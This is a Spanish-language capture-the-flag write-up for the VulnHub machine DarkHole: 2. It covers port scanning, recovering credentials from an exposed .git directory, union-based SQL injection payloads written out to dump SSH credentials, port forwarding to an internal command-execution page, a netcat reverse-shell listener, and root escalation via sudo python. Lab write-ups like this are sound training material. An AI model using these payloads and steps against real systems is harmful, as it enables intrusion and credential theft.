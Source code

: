 # VulnHub - DarkHole: 2 Writeup

## Primer paso: Excaneo de puertos
Anotamos nuestra IP

```bash
sudo ifconfig
```

![Consola](img/1.png)

En este caso será 192.168.226.128

Luego, es necesario encontrar la máquina a vulnerar. Esto se puede hacer con arp-scan o nmap. En este caso se le pedirá a nmap que escanee todas las IPs en nuestro rango.

```bash
nmap 192.168.226.0-255
```

![Consola](img/2.png)

- 192.168.226.2 :Tiene abierto el puerto 53, que se usa para DNS, por lo que se descarta esta máquina.
- 192.168.226.128: Es la máquina atacante.
- 192.168.226.130: Es la única máquina que queda, además tiene abiertos los puertos 22 y 80 (ssh y una página web)

Realizamos u n escaneo más profundo con:

```bash
nmap -A -v -n 192.168.226.130
```

![Consola](img/3.png)

Y obtenemos que existe un directorio .git accesible a través del puerto 80

## Segundo paso: Encontrar la vulnerabilidad web

Accedemos a su página web y vemos que en este caso no tiene disponible una pestaña para registrarnos:

![Consola](img/4.png)

Sin ambargo, este panel no es vulnerable a SQl injection.

Esta página tiene un directorio .git. Nos lo descargamos con wget para ver los cambios y su código.

```bash
wget -r http://192.168.226.130/.git/
```

Para ver los cambios usaremos:

```bash
git log --oneline
```

![Consola](img/5.png)

Vemos que en el commit anterior (a4d900a), en login.php estaban las credenciales por defecto. Vamos a ver los cambios de ese commit:

```bash
git show a4d9
```

![Consola](img/6.png)

La línea importante es la siguiente:

```php
if($_POST['email'] == "lush@admin.com" && $_POST['password'] == "321"){
```

Esta línea se añadió en este commit, pero se eliminó en el siguiente, probamos sus credenciales para acceder. Nos llevará a un panel de control donde podremos ver el usuario:

![Panel de control](img/7.png)

De nuevo, se envía por parámetro el id (?id=1). En este caso, al cambiar el id a 2 se nos mostrará la plantilla que carga los datos. Esto es importante.

## Tercer paso: Explotar SQL Injection
Interceptamos la carga del usuario 1 y la enviamos al repetidor:

![Repeater de BurpSuite](img/8.png)

Al modificar los campos del submit no funcionará, pero se puede modificar la petición GEt para introducir SQL tras el id.
Gracias a ello, ahora sabemos que la tabla que está consultando la base de datos tiene 6 columnas:

![Repeater de BurpSuite](img/9.png)

La columna 1 es el id de la fila, pero la columna 4 no la usa la plantilla. Aun así vamos a hacer un mapa de la base de datos cambiando un número por una función:
Es muy importante revisar varias veces los datos y codificarlos a URL una sola vez.

- database() Nos dará el nombre de la base de datos. darkhole_2
- union+select+1,group_concat(schema_name),3,4,5,6+from+information_schema.schemata--+- Muestra todas las bases de datos. mysql,information_schema,performance_schema,sys,darkhole_2
En este caso sólo nos interesa la base de datos darkhole_2
- '+union+select+1,group_concat(table_name),3,4,5,6+from+information_schema.tables+where+table_schema%3d'darkhole_2'--+- Muestra las tablas de la base de datos darkhole_2. ssh,user
Los datos de la tabla ssh pueden ser interesantes.
- '+union+select+1,group_concat(column_name),3,4,5,6+from+information_schema.columns+where+table_schema%3d'darkhole_2'+and+table_name%3d'ssh'--+- para ver el nombre de las columas. id pass user
La columna id no nos interesa, tenemos que extraer los datos de user y pass.
- '+union+select+1,group_concat('usuario:+',user,'pass:+',pass),3,4,5,6+from+ssh--+- Extrae el usuario y la contraseña del id 1 de la tabla ssh.

![Repeater de BurpSuite](img/10.png)

Hay que tener especial cuidado con las comillas, en el último caso el nombre de la tabla no lleva comillas, pero en el resto sí. Esto depende si va detrás de un from o de un = (%3d encodeado a URL).

Ya tenemos entonces el usuario y la contraseña para conectarnos por ssh: jehad y fool.

## Cuarto paso: Escalar privilegios con ssh
Nos conectamos por ssh a través del terminal con el siguiente comando:

```bash
ssh jehad@192.168.226.130
```

Al haber enterado con un usuario distinto a www-data, podemos ver su historial de comandos:

```bash
cat .bash_history | less
```

![Histórico de comandos](img/11.png)

Al parecer, hay levantado en el puerto 9999 un servidor web levantado. Este puerto no fue detectado con netcat porque no es accesible desde el exterior.

Podemos hacer un port forwarding desde nuestra consola con ssh:

```bash
ssh jehad@192.168.226.130 -L 9999:localhost:9999
```
Ahora, accediendo a http://127.0.0.1:9999/ veremos que acepta el parámetro cmd para ejecutar comandos.

![Página web](12.png)

El usuario que corre el servicio es losy, podría ser interesante acceder a este. Para ello creamos una web shell.

Abrimos otra consola y escuchamos con netcat:

```bash
nc -lvnp 8888
```

Y entramos en la página [https://www.revshells.com/](RevShells) para generar la consola.

En este caso, funcionó la siguiente configuración:

![Reverse shell](13.png)

En la carpeta /home/losy encontramos la primera flag:


![Reverse shell](14.png)

De nuevo, viendo el histórico de comandos, encontramos una contraseña:

```bash
cat .bash_history | less
```

![Password](15.png)

Ahora que tenemos la contraseña de losy, vamos a consultar qué podemos ejecutar como root:

```bash
sudo -l
```
![Consola](16.png)

Podemos ejecutar python. Con él podemos darnos acceso a la consola de root. Creamos un archivo con el siguiente contenido o lo ponemos en el interprete de python:

```python
import pty;
pty.spawn("/bin/bash")
```

![Consola](17.png)

Con esto podemos acceder a la flag:

![Consola](18.png)
